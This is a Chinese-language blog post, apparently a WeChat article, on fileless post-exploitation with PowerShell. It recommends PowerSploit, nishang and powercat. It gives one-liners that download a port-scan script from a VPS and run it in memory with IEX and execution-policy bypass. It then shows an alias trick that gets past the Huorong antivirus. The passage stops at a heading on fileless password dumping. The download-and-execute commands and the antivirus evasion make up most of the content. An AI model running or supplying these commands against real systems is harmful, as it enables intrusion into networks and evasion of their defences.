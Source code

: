 ![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09LBFaOWbbu3e7SJnt8s39NJjibBvUz45R7xSSjjZSkH2V5fv9SS2YlRb0zRibiaw94BicjL4I1WNmPEQ/640?wx_fmt=png)

  

**项目推荐:**

```
git clone https://github.com/mattifestation/PowerSploit.git

git clone https://github.com/samratashok/nishang
git clone https://github.com/besimorhino/powercat
```

**无文件落地端口扫描:**

**![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09LBFaOWbbu3e7SJnt8s39N3IZe1HYCtzmv8xa9Q5JiatTKZyIjvkmp2fedk6fRYzaZc0Qnw5D7iapA/640?wx_fmt=png)**

脚本放到 vps，开启通道

在我们第一次尝试的时候，可能会出现这种问题：  

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09LBFaOWbbu3e7SJnt8s39NZbRXs8VvpquglOK8I8T6N38ecMug0AluR0fl4ky2ApWaZjs3uHpfuw/640?wx_fmt=png)

解决办法:

第一种可能: 模块名字, 你不经意的打错了

第二种可能: 需要修改作用域的权限。

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09LBFaOWbbu3e7SJnt8s39Nj3m3b8s5ruOWB4IRXJoj83rD8j91MT7E9wiaxJvyzia9RlqeaylV0KLw/640?wx_fmt=png)

执行后为:

```
powershell -nop -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://x.x.x.x/Invoke-Portscan.ps1')";Invoke-Portscan -Hosts 192.168.37.0/24 -T 4 -ports "3389" -oA c:\windows\temp\est1.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09LBFaOWbbu3e7SJnt8s39NkHYw2cLAVt22B20jCjsnUXCy32HPf2aw6AKPb3LkW1Flkvrz4zltSg/640?wx_fmt=png)  

还有一点是执行的时候，杀软会拦截。

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09LBFaOWbbu3e7SJnt8s39N8GrLVV1ZzibdNRBXr3HeO3hKw88GicwYTibfz2ujbumflNj3secGuCVuw/640?wx_fmt=png)

不过我们换一种思路

```
powershell set-alias -name test -value Invoke-Expression;test(New-Object System.Net.WebClient).DownloadString('http://x.x.x.x/Invoke-Portscan.ps1');Invoke-Portscan -Hosts 192.168.37.0/24 -T 4 -ports "3389" -oA c:\windows\temp\est3.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ09LBFaOWbbu3e7SJnt8s39N52cOicP8YqeXsfW3HkOItclbrQ9rgACYcLc2ojRWYNn8NhtyJunG6icg/640?wx_fmt=png)

给 IEX 设置一个别名，再执行，火绒便不会再拦截。

**无文件落地抓取密码:**
